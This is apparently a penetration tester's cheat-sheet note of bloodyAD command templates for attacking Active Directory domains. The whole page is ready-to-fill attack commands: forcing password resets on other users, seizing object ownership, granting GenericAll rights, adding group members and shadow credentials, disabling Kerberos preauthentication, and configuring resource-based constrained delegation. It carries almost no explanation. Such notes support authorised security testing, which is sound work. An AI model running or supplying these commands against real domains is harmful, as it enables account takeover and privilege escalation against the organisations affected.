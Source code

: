 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## Set password
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set password '<target_user>' '<new_passwd|Password123!>'
```

## Get writable
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set owner '<target_obj>' '<our_acc>'
```

## Add GenericAll
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add genericAll '<target_obj>' '<our_acc>'
```

## Add group member
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add groupMember '<group>' '<member>'
```
## Shadow Creds
```
bloodyAD --host <target> -d <domain>  -u '<user>' -p '<passwd>' add shadowCredentials <target_user>
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac '<target_obj>' -f DONT_REQ_PREAUTH
```

## Add RBCD
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add rbcd '<target_obj>' '<service_acc>'
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd' remove uac 'account' -f ACCOUNTDISABLE
```
